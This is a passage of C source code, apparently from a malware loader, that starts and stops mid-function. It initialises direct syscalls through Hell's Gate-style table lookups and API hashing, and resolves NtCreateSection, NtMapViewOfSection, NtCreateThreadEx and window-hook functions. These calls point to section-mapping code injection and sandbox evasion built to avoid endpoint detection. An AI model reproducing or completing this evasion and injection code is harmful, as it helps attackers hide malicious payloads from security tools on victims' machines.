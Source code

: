 ```
		return FALSE;

	g_Sys.NtCreateSection.uHash          = NtCreateSection_JOAA;
	g_Sys.NtMapViewOfSection.uHash       = NtMapViewOfSection_JOAA;
	g_Sys.NtUnmapViewOfSection.uHash     = NtUnmapViewOfSection_JOAA;
	g_Sys.NtClose.uHash                  = NtClose_JOAA;
	g_Sys.NtCreateThreadEx.uHash         = NtCreateThreadEx_JOAA;
	g_Sys.NtWaitForSingleObject.uHash    = NtWaitForSingleObject_JOAA;
	g_Sys.NtQuerySystemInformation.uHash = NtQuerySystemInformation_JOAA;
	g_Sys.NtDelayExecution.uHash         = NtDelayExecution_JOAA;

	// Initialize the syscalls
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateSection))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtMapViewOfSection))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtUnmapViewOfSection))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtClose))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateThreadEx))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtWaitForSingleObject))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtQuerySystemInformation))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtDelayExecution))
		return FALSE;


	//	User32.dll exported
	g_Api.pCallNextHookEx      = (fnCallNextHookEx)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), CallNextHookEx_JOAA);
	g_Api.pDefWindowProcW      = (fnDefWindowProcW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), DefWindowProcW_JOAA);
	g_Api.pGetMessageW         = (fnGetMessageW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), GetMessageW_JOAA);
	g_Api.pSetWindowsHookExW   = (fnSetWindowsHookExW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), SetWindowsHookExW_JOAA);
	g_Api.pUnhookWindowsHookEx = (fnUnhookWindowsHookEx)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), UnhookWindowsHookEx_JOAA);

	if (g_Api.pCallNextHookEx == NULL || g_Api.pDefWindowProcW == NULL || g_Api.pGetMessageW == NULL || g_Api.pSetWindowsHookExW == NULL || g_Api.pUnhookWindowsHookEx == NULL)
		return FALSE;

	// 	Kernel32.dll exported
	g_Api.pGetModuleFileNameW          = (fnGetModuleFileNameW)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), GetModuleFileNameW_JOAA);
	g_Api.pCloseHandle                 = (fnCloseHandle)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), CloseHandle_JOAA);
	g_Api.pCreateFileW                 = (fnCreateFileW)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), CreateFileW_JOAA);
	g_Api.pGetTickCount64              = (fnGetTickCount64)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), GetTickCount64_JOAA);
	g_Api.pOpenProcess                 = (fnOpenProcess)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), OpenProcess_JOAA);
	g_Api.pSetFileInformationByHandle  = (fnSetFileInformationByHandle)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), SetFileInformationByHandle_JOAA);

```